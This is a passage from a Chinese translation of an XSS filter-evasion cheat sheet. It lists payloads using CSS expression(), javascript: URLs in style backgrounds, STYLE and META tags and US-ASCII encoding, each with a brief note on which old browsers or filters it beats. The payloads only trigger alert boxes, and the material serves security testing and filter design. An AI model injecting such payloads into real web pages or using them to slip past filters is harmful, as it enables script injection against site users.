     <STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>

-----
##STYLE属性中使用注释去分隔表达式##
提出被 Roman Ivanov

    <IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))">

----
##IMG样式的表达式##
这是上面xss向量的混合体。不过它展示了STYLE标签被分隔有多困难。同样它也会在ie下造成循环弹窗。

    exp/*<A STYLE='no\xss:noxss("*//*");
    xss:ex/*XSS*//*/*/pression(alert("XSS"))'>

----
##STYLE标签（仅支持老版本的Netscape）##

    <STYLE TYPE="text/javascript">alert('XSS');</STYLE>

-----
##使用background-image的style标签##

    <STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A CLASS=XSS></A>

-----
##使用background的style标签##

    <STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>

-----
##匿名html标签的属性##
IE6.0 和使用了ie渲染引擎的Netscape 8.1+ 并不会关心你创建的html标签存在与否。只要它是以尖括号以及字符开始的。

    <XSS STYLE="xss:expression(alert('XSS'))">

----
##本地 htc 文件##
它有一个小的不同与上面的xss向量，因为他使用的 htc 文件必须是当前域的文件。这个文件通过样式属性引入并运行javascript代码实现xss。

    <XSS STYLE="behavior: url(xss.htc);">

----
##US-ASCII编码##
US-ASCII 编码 (发现被 Kurt Huwig)。它是使用畸形的ASCII 编码用7bits代替8bits. 这个xss可以绕过绝大多数内容过滤，但是必须当前域的传输形式为 US-ASCII编码方式。或者你自己将当前页面设置为种编码方式 。它是更加有用的去绕过web应用防火墙xss过滤比服务器端的过滤。Apache的 Tomcat是众所周知的 使用US-ASCII编码传输协议。

    ¼script¾alert(¢XSS¢)¼/script¾

----
##META##
关于meta refresh比较奇怪的是它并不会发送一个刷新请求头。因此它通常用于那些不需要引用url的攻击。

    <META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">

-----
##META using data##
 URL指令方案是非常的不错，因为它没有明显的SCRIPT单词或是JavaScript 指令出现，而是使用了base64 编码。请查看 [RFC 2397][6]了解更多信息或是编码你的代码。你也可以使用 [XSS calculator][7]去编码你的html或是javascript代码到base64编码。


  [1]: http://ha.ckers.org/xsscalc.html
  [2]: http://ha.ckers.org/xsscalc.html
  [3]: http://ha.ckers.org/xsscalc.html
  [4]: http://help.dottoro.com/
  [5]: http://help.dottoro.com/ljfvvdnm.php
  [6]: https://tools.ietf.org/html/rfc2397
  [7]: http://ha.ckers.org/xsscalc.html